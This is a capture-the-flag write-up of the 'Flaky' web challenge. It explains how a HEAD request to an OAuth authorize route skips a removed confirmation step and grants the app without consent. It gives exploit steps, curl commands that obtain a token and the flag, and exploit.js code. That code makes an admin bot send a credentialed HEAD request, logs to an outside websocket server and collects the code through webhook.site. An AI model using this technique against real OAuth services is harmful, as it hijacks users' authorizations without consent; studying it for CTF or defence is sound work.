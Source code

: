 ```yaml
---
layout: post
title: Chujowy CTF - Web Exploitation
excerpt: "Flaky was a web challenge with a pretty interesting attack that I didn't know about. It deals with how a HEAD request is handled internally and how that can lead to authentication problems."
categories: [Writeups, ChujowyCTF'20]
tags: [web]
---
```

Flaky was a web challenge with a pretty interesting attack that I didn't know about. It deals with how a HEAD request is handled internally and how that can lead to authentication problems.

#### Flaky
```
We used this shiny thing, OAuth, but it seems that not everything works as expected.

Address: https://flaky.chujowyc.tf

The service is available on internal network on address http://localhost:8000.

Author: @enedil
```

When we first look at the source it is clear that what we are given is an OAuth server.  The authentication flow of OAuth takes a while to explain and there are multiple routes. I refered to [this](https://www.digitalocean.com/community/tutorials/an-introduction-to-oauth-2) stack overflow post to learn about it more in depth. The first thing I did was make a github repo and upload first the original repository and then the challenge repository. This was a pretty good way to easily sort the differences between the two repositories and try and identify the bug. Although there are command line alternatives like `diff`, I much prefer the visual representation GitHub provides, especially for multiple files. After locating the diffs, the first thing I tried was different authentication methods. For instance, I tried both the implicit and authorization code authentication flow but that wasn't where the bug was located. After all, this is a visible public repo and there didn't seem to be any major changes in the specific handling of each authentication flow. 

The bug is actually really interesting and Ginkoid found that the bug was actually in how HEAD requests are handled. [This](https://blog.teddykatz.com/2019/11/05/github-oauth-bypass.html) blog post is likely the inspiration for the challenge as noted from the flag. Essentially what it describes is an attack when the authorization route is the same for both actually authentication and displaying the authentication page. The details of the attack are in how HEAD requests are handled. As the blogpost describes, they are initially treated as GET requests but don't send the body back, only the allowed headers. This means the request is still passed to the route which only allows GET requests. In conjunction with this, because the authentication route handles both displaying the page and authentication, just with a different request type, POST vs GET, a bug arrises. In the route, it checks if the method is GET and will display the page, otherwise, it will treat it as an authorization request because it believes the requset is a POST request. This can be abused because the HEAD request matches the route because it is treated as a GET request but also does authorization because it matches `request.method != GET`.  Essentially, by sending a HEAD request to the `/oauth/authorize` route , if the user is logged in, it will automatically authorize the OAuth application. It is important to note that this is not possible in the actual example repository because it asks for a confirmation parameter which the challenge author removed. Here is the relevant diff in the `/oauth/authorize` route:
```
-    if request.form['confirm']:
-        grant_user = user
-    else:
-        grant_user = None
-    return authorization.create_authorization_response(grant_user=grant_user)
+    return authorization.create_authorization_response(grant_user=user)
```

To exploit this it is really simple.
1. Create a client with client_uri and redirect_uri to webhook.site, permits grant type of authorization_code, permits response type of code, and has a scope of flag.
2. On your website, make the admin bot send a HEAD request to `http://localhost:8000/oauth/authorize?client_id=${client_id}&response_type=code&scope=flag` where client_id is your client_id.
3. Get the authorization code from webhook.site because the OAuth server had a callback.
4. Get the token by running this curl command. `curl -u ${client_id}:${client_secret} -XPOST https://flaky.chujowyc.tf/oauth/token -F grant_type=authoriz  
ation_code -F code=${code}` where client_id and client_secret are replaced by your client and code is the code on the webhook.site callback.
5. Get the flag by sending the access_token as a header. `curl -X GET https://flaky.chujowyc.tf/api/flag -H 'Authorization: Bearer ${token}'` where token is the access_token.

My final exploit.js was bloated due to templated websockets but it looked like this:
```javascript
const logSocket = new WebSocket('wss://jmy.li:1337');

logSocket.addEventListener('open', _event => {
    doExploit();
});

function log(msg){
    if(logSocket.readyState == WebSocket.OPEN){
        logSocket.send(JSON.stringify(msg));
    }
}

async function doExploit(){

        await fetch('http://localhost:8000/oauth/authorize?client_id=e48BpcGXIzX1u3L03AW2I5ad&response_type=code&scope=flag', {
                method: 'HEAD',
                credentials: 'include',
                mode: 'no-cors'
        });

        log('HEAD request finished');

}
```

Overall this was a really neat challenge and taught me that HEAD requests are actually just GET requests without the body. I had always assumed they were handled seperately by the router.  
